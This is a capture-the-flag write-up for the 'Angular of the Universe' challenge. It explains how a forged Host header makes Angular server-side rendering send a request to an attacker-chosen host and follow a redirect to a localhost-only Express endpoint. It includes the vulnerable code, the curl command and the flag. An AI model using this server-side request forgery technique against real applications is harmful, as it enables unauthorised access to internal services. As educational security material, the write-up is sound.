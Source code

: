 ## Angular of the Universe 
The challenge was about bypassing the Angular application that was set up behind Nginx reverse proxy. The challenge contained two flags:
- first was hidden in the angular endpoint `/debug/answer` restricted by the Nginx and the application
- second hidden in the express endpoint `/api/true-answer` which yielded results only for `127.0.0.1` IP addresses.

### Flag#2 /api/true-answer (149 points, 34 solves) 
As mentioned, the application was displaying the flag if the request came from the loopback network.

```js

  server.get('/api/true-answer', (req, res) => {
    console.log('HIT: %s', req.ip)
    if (req.ip.match(/127\.0\.0\.1/)) {
      res.json(`hello admin, this is true answer: ${process.env.FLAG2}`)
    } else {
      res.status(500).send('Access restricted!')
    }
  });

```

Because the application was hidden behind Nginx proxy, `req.ip` was always pointing to the same IP address of the reverse proxy. The application didn't also trust `X-Forwarded-*` headers so this value couldn't be overridden. 

When accessing `/q` endpoint, the application was displaying contents of `/api/answer`. It was done on the server-side via the below snippet.

```ts
  ngOnInit(): void {
    ...
    // fetch answer via API
    this.service.getAnswer().subscribe((answer: string) => {
      this.answer = answer
    })
  }
}
```

`this.service.getAnswer()` was yielding `this.http.get('/api/answer')`.


```ts
  getAnswer() {
    return this.http.get('/api/answer')
  }
```

Apparently angular when doing HTTP requests uses `Host` header, something around `PROTOCOL + HOST + / PATH`. Not only that but also follows the redirects. Therefore by providing a custom host and redirecting anything to `127.0.0.1/api/true-answer`, we get the flag. 

```sh
curl 'http://universe.chal.ctf.westerns.tokyo/a' -H 'Host: terjanq.me'
```

#### TWCTF{you-have-to-eat-tomato-yume-chan!}
